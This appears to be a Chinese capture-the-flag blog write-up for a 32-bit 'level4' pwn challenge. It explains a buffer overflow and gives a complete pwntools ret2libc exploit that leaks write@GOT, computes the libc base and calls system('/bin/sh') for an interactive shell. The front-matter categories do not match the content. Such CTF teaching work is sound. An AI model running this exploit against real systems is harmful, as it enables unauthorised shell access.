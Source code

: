 ```yaml
---
title: '{文件名}'
date: 2024-11-11 13:00:00 +0800
categories: [uaf,malloc_hook,unsortbin_leaklibc]
tags: [ctf,pwn]
---
```

![image-20240102230647469](../assets/img/old_imgs/image-20240102230647469.png)

- `32`位`libc`泄露
- `ret2libc`

1. 存在漏洞函数`vulnerable_function`变量`buf`存在溢出
2. 常规`32`位泄露`libc`

```python
from pwn import *
io = process('./level4')
#context.log_level = 'debug'
elf = ELF('./level4')
Lib = ELF('/lib/i386-linux-gnu/libc.so.6')
#io = gdb.debug('./level4','break vulnerable_function')
padding = b'A'*(0x88+0x4)
payload1 = padding+p32(elf.plt['write'])+p32(elf.sym['vulnerable_function'])+p32(0x1)+p32(elf.got['write'])+p32(0x4)
io.send(payload1)
write_addr = u32(io.recv(4))
print('write_addr->',hex(write_addr))

Liboffset = write_addr - Lib.sym['write']
sys_addr = Liboffset + Lib.sym['system']
bin_sh_addr = Liboffset + next(Lib.search(b'/bin/sh'))
payload2 = padding + p32(sys_addr) + p32(0) + p32(bin_sh_addr)
io.send(payload2)
io.interactive()
```

不知道为什么,本地打通了但是远程泄露的`libc`有点问题,打不通,还是菜